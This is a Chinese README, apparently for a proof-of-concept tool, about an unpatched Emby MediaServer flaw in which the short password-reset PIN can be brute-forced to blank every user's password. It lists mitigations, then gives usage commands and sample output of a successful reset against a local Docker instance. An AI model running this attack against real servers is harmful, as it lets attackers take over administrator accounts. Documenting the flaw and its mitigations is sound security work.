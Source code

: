 # Emby MediaServer <= 4.9.1.80/4.9.2.6 beta 任意用户密码重置

也是老洞了，但一直没修，甚至最新版也存在，重置密码的 Pin 过短导致可以爆破。

临时缓解办法：在服务器上创建一个名为 `/config/passwordreset.txt`（具体路径看服务器系统）的 *目录*， 权限改为 444 或更低，也考虑在反向代理上拦截 /emby/Users/ForgotPassword 和 /emby/Users/ForgotPassword/Pin 请求，并增加速率限制。

## POC 用法

PIN 默认是 0721，一般能在几分钟内爆破出来，所有用户密码会重置为空，能直接登录管理后台。

```bash
$ docker run -d -p 8096:8096 emby/embyserver:v4.9.1.80
$ python main.py <server> [-u <user>] [-p <pin>]
$ python main.py http://localhost:8096

第1次尝试中
...
第5391次尝试中

===== 成功！ =====
重置的用户名：sdaflfjjkefnkjan
使用的PIN码：0721
总尝试次数：5391次
总用时：14.64秒
```

## 参考文献

https://www.exploit-db.com/exploits/41947

https://emby.media/support/articles/Admin-Password-Reset.html

https://dev.emby.media/reference/RestAPI/UserService/postUsersForgotpassword.html

https://dev.emby.media/reference/RestAPI/UserService/postUsersForgotpasswordPin.html

http://localhost:8096/web/index.html#!/startup/forgotpasswordpin.html
